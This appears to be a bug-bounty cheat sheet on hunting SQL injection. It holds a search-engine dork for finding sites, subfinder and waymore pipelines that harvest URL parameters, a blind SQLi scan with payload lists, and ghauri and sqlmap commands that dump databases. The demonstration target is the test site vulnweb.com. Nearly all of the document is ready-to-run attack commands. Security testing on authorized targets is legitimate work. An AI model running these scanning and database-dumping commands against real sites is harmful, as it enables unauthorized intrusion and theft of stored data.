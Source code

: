 ## Dork

```
site:.com & ext:php | ext:asp | ext:aspx | ext:jsp | ext:jspx & intitle:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```
<a href="https://github.com/freelancermijan/.gf/blob/main/sqli.json">All SQLi Parameters</a>

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```
<a href="https://github.com/coffinsp/payloads">More payloads</a>

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
